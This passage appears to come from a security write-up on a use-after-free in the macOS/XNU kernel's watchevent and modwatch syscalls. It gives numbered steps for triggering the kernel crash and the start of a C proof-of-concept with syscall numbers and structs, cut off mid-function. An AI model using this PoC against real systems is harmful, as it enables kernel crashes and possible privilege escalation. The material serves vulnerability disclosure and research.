 ```
    

}
```

at 4.a, this function will clear flag FP_WAITEVENT which meets our request, but in normal case, this function will remove evq at location 4.d and 4.e so that we cannot trigger our vulnerability. But in our POC, we call this function in its parent process so that condition at 4.b will never true. In our POC, we will exit this function at 4.c and won't remove evq at location 4.e.

## PoC Code
```
/*
 Analysis and Reproduce Steps
 
 Parent Process: A
 Child Process: B
 
 (1) A ceate pipe which allocates fd1 and fd2 -->
 (2) fork child process B, B inhert fd1 and fd2 -->
 (3) B watchevent on fd1 -->
 (4) A modwatch on fd1 -->
 (5) Process B exits.
 (6) A close all handles of fd1 and fd2 -->
 (7) system crash due to uaf process object B
 
 step 3 will allocate an evp and set a) evp->ee_proc = process object B; b)fp->f_flags = FP_WAITEVENT (in fp_drop_event)
 step 4 will remove flag FP_WAITEVENT which will skip calling waitevent_close during fdfree
 step 5 process B will exit, but leave 'evp->ee_proc = process object B' dangling
 step 6 will trigger fdfree which calls evpipefree, evpipefree will operates on process object B which is already destroyed
 */

#include <iostream>
#include <unistd.h>
#include <sys/syscall.h>
#include <semaphore.h>
#include <mach/mach.h>

const int kInFd = 3;
const int kOutFd = 4;

#define EV_FD 1
#define EV_RM  8

#define    SYS_watchevent     231
#define    SYS_modwatch       233

struct eventreq64 {
    int      er_type;
    int      er_handle;
    user_addr_t er_data;
    int      er_rcnt;
    int      er_wcnt;
    int      er_ecnt;
    int      er_eventbits;
};

int watchevent(int fd)
{
    struct eventreq64 req;
    int eventmask = 0;
```